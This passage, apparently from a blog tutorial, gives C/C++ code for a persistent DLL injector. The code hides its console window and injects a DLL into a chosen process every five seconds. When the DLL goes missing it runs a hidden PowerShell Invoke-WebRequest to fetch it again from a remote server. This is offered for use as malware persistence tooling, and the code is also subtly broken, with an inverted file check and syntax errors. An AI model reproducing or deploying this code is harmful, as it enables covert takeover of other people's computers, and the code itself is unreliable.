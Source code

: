 ```
void checkDLL(const char* dllPath){
	// Checks if the dll is still on disk
	FILE* stream;
	if (fopen_s(&stream, dllPath, "r") != 0) {
		printf("\t[*] Dll is still on disk\n");
	}
	else {
		// Pull from CDN
		system("start powershell.exe -w 1 Invoke-WebRequest -Uri \"<URI to pull the file from>" -UseBasicParsing -OutFile C:\\<path and name to place the file>");
		printf("\t[!] Dll is no longer on disk pulling from <URI>\n");
	}
}
```

### Putting it all together
---
Now that all the parts are implemented in code we can put it all together to have an executatble that does the injection and watching for us. The first major barrier has been conquered and here is the final product. Here is the code of everything put together and some images of it loading the DLL.

```
int main()
{
	// Hides the Console Window 
	::ShowWindow(::GetConsoleWindow(), SW_HIDE);
	// The path of the DLL to inject
	const char* dllPath = "C:\\<Path to DLL>";
	// Name of process to inject into
	std::wstring targetProcess= L"<Name of Process>";

	// Inject the initial dll
	printf("[*] Attempting to inject dll: %s\n", dllPath);
	HANDLE injected = InjectProcess(dllPath, targetProcess);
	if (injected == 0) {
		printf("[!] Error: Initial process failed to inject\n");
	}
	else {
		printf("[*] Initial process has been injected\n");
	}

	// The loop that watches everything
	while (1) {
		if (IsAlive(injected) == 0) {
			printf("[!] Process is no longer injected ... attempting to reinject\n");

			printf("\t[*] Checking if dll is still on disk\n");
			checkDLL(dllPath)

			printf("\t[*] Attempting to reinject the dll\n");
			injected = InjectProcess(dllPath, targetProcess);
			if (injected == 0) {
				printf("\t[!] Error: Process failed to reinject\n");
			}
			else {
				printf("\t[+] Process has been reinjected");
			}

		}
		else {
			printf("[*] Process is still alive and well\n");
		}
		Sleep(5000);
```